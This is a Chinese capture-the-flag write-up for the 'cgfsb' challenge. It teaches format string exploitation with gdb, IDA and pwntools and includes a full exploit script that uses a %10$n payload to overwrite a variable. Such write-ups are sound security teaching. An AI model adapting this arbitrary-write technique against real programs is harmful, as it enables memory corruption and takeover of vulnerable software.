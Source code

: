 # 攻防世界: cgfsb

## **[目标]**
利用格式化字符串漏洞，造成任意地址写。

## **[环境]**
Ubuntu

## **[工具]**
gdb、python、pwntools, IDA

## **[过程分析]**

- 我们先看一下这道题的逻辑：

![](./pic/1.png)

- 输入 name，返回 name； 输入message，返回message。

- 从ida中查看伪代码：

![](./pic/2.png)

- 利用过程：通过格式化字符串漏洞，将 pwnme 的值修改成8。

简单的介绍一下格式化字符串漏洞的知识点：

* %n 将当前已打印字符的个数（4个字节）
* %<正整数n>$< fmt>指定占位符对应第n个参数，例如：%12$x，此处%x对应第12个参数。




- 通过 ida 查看汇编代码 找到`call printf`的地址（调用printf(&s)）。之后我们用gdb进行调试，在调用printf(&s)之前下一个断点,查看接收 message 的变量 s 是格式化字符串的第几个参数。输入 message 的时候输入 ‘aaaa’。

![](./pic/3.png)

- 查看当前栈中的内容。

![](./pic/4.png)

- 这个我们可以通过 输入message的时候，把 pwnme的地址（在ida中点击伪代码中的pwnme就能查看到了） 写到这个位置，然后把这个地址的值修改成8（利用格式化字符串漏洞的任意内存写）。我们就可以构造出下面的payload啦：

```
# pwnme的地址+aaaa 凑出8个字节，这样就可以在10$的位置 写入8（四个字节）改变pwnme的值。

payload =  p32(pwnme_addr) + 'aaaa%10$n' 
```

完整的exp：

```
from pwn import *

context.log_level = 'debug'
DEBUG = int(sys.argv[1])

if DEBUG == 1:
    p = process('./cgfsb')
else:
    p = remote('10.10.49.194', 30147)

pwnme_addr =  0x0804A068

payload1 =  "ABCD"
payload2 =  p32(pwnme_addr) + 'aaaa%10$n'

p.recvuntil('please tell me your name:\n')
p.sendline(payload1)

p.recvuntil('leave your message please:\n')
p.sendline(payload2)

print p.recv()
print p.recv()

```

本地：

```
python exp.c 1
```

远程：

```
python exp.c 0
```

## **[参考阅读]**

[格式化字符串漏洞](https://www.anquanke.com/post/id/85785)

[pwntools文档](https://pwntools.readthedocs.io/en/stable/)

[gdb的简单用法](https://blog.csdn.net/ll352071639/article/details/42304619)

[gdb查看内存命令](https://blog.csdn.net/yasi_xi/article/details/9263955)

《IDA Pro权威指南》
 




